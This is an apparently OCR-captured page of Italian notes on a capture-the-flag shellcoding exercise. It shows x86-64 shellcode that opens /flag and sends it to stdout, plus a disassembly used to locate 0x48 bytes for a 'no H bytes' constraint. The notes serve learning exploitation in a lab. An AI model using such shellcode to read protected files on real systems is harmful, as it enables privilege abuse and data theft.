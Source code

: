```
    or rdi, 1
    xor rdx, rdx
    xor r10, r10
    or r10, 100
    xor rax, rax
    or rax, 40
    syscall

    xor rax, rax
    or rax, 60
    syscall

pushFlag:
    call open
    .byte 0x2f, 0x66, 0x6c, 0x61, 0x67

``` 

## Esercizio 4
Questo esercizio dice "This challenge requires that your shellcode have no H bytes!" 
Quindi il primo step è quello di trovare il byte che corrisponde ad H con ipython
```
In [1]: print("H".encode().hex())
48
```
Successivamente eseguiamo il codice dell'esercizio precedente per visualizzare dove si trova il byte 48 
```
0000000000401000 <_start>:
  401000:       eb 3c                   jmp    40103e <pushFlag>

0000000000401002 <open>:
  401002:       48 31 c0                xor    rax,rax
  401005:       5f                      pop    rdi
  401006:       48 31 c0                xor    rax,rax
  401009:       48 83 c8 02             or     rax,0x2
  40100d:       48 31 d2                xor    rdx,rdx
  401010:       48 31 f6                xor    rsi,rsi
  401013:       0f 05                   syscall 
  401015:       48 31 f6                xor    rsi,rsi
  401018:       48 09 c6                or     rsi,rax
  40101b:       48 31 ff                xor    rdi,rdi
  40101e:       48 83 cf 01             or     rdi,0x1
  401022:       48 31 d2                xor    rdx,rdx
  401025:       4d 31 d2                xor    r10,r10
  401028:       49 83 ca 64             or     r10,0x64
  40102c:       48 31 c0                xor    rax,rax
  40102f:       48 83 c8 28             or     rax,0x28
  401033:       0f 05                   syscall 
  401035:       48 31 c0                xor    rax,rax
  401038:       48 83 c8 3c             or     rax,0x3c
  40103c:       0f 05                   syscall 

000000000040103e <pushFlag>:
  40103e:       e8 bf ff ff ff          call   401002 <open>
  401043:       2f                      (bad)  
  401044:       66 6c                   data16 ins BYTE PTR es:[rdi],dx
  401046:       61                      (bad)  
  401047:       67                      addr32
```
Si può notare che il byte si trova negli `xor` e `or`, se provate a eseguire il codice dell'esercizio 1 mostrerà anche che vale per le `mov`.